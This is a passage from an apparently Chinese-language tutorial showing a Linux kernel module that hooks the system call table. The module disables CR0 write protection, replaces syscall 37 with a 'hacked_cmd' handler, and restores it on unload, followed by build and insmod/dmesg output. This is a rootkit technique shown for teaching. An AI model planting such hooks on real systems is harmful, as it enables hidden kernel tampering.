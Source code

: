 {\begin{shaded}
\begin{verbatim}
    orig_syscall = sys_call_table[SYSCALL_NUM];

    sys_call_table[SYSCALL_NUM] = hacked_cmd;

    //恢复cr0寄存器的第16位    
    setback_cr0(orig_cr0);

    return 0;
}

void my_cleanup_module(void) /*模块卸载*/
{
    printk("exit ok\n");

    orig_cr0 = clear_and_return_cr0(); //cr0寄存器的第16位清0

    sys_call_table[SYSCALL_NUM] = orig_syscall; /*把系统调用恢复*/

    //恢复cr0寄存器的第16位    
    setback_cr0(orig_cr0);
}


module_init(my_init_module);
module_exit(my_cleanup_module);
$ 
\end{verbatim}\end{shaded}}
\subsection{编译生成内核模块}

{\begin{shaded}\begin{verbatim}
$ make
make -C /usr/src/linux-headers-3.2.0-29-generic-pae/    SUBDIRS=/home/akaedu/Github/comment-subs/secure-hole/2-hack-kill    modules
make[1]: Entering directory `/usr/src/linux-headers-3.2.0-29-generic-pae'
  CC [M]  /home/akaedu/Github/comment-subs/secure-hole/2-hack-kill/hack-kill.o
/home/akaedu/Github/comment-subs/secure-hole/2-hack-kill/hack-kill.c:20:26: warning: initialization from incompatible pointer type [enabled by default]
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /home/akaedu/Github/comment-subs/secure-hole/2-hack-kill/hack-kill.mod.o
  LD [M]  /home/akaedu/Github/comment-subs/secure-hole/2-hack-kill/hack-kill.ko
make[1]: Leaving directory `/usr/src/linux-headers-3.2.0-29-generic-pae'
$ 
\end{verbatim}\end{shaded}}
\subsection{插入模块，查看系统日志输出}

{\begin{shaded}\begin{verbatim}
$ sudo insmod hack-kill.ko
[sudo] password for akaedu: 
$ sudo dmesg -C
$ dmesg | tail
[ 5923.634714] init ok, SYSCALL NUM = 37
[ 5923.634719] table at c15b0000
\end{verbatim}\end{shaded}}
